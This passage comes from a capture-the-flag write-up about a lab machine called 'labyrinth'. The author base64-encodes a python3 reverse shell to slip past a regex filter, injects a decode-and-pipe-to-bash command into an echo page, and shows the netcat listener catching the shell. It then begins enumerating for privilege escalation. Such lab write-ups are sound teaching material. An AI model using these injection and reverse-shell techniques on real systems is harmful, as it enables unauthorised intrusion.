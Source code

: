 So so get around this, I encoded my payload as base64, another great resource is [https://www.revshells.com](https://www.revshells.com). Put in your IP and port and you can pick the type of reverse shell you want and then encode it with base64. 

![genshell](/assets/images/minotaurslabyrinth/genshell.png)

I used the python3 payload, once thing to note is the regex will check for ```=``` so your payload must not need padding once encoded to base64.

Now with my payloaded encoded, I started a listener and on the echo page I entered ```<base64 string> | base64 -d | bash```

```highlight
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [THMVPNIP] from (UNKNOWN) [10.10.68.118] 41916
bash: /root/.bashrc: Permission denied
daemon@labyrinth:/opt/lampp/htdocs$ 
```

I finally had a shell!

### Priv Esc

While enumerating the machine I found a folder called 'reminders' which is not a standard folder.

```highlight
daemon@labyrinth:/$ ls
ls
bin    home            lost+found  reminders  srv       usr
boot   initrd.img      media       root       swapfile  var
cdrom  initrd.img.old  mnt         run        sys       vmlinuz
dev    lib             opt         sbin       timers    vmlinuz.old
etc    lib64           proc        snap       tmp
daemon@labyrinth:/$ cd reminders
cd reminders
daemon@labyrinth:/reminders$ ls -lah
ls -lah
total 44K
drwxr-xr-x  2 root root 4,0K jún   15 17:25 .
drwxr-xr-x 26 root root 4,0K szept 20 08:42 ..
-rw-r--r--  1 root root  31K nov    7 14:36 dontforget.txt
daemon@labyrinth:/reminders$ date
date
2021. nov. 7., vasárnap, 14:36:07 CET
```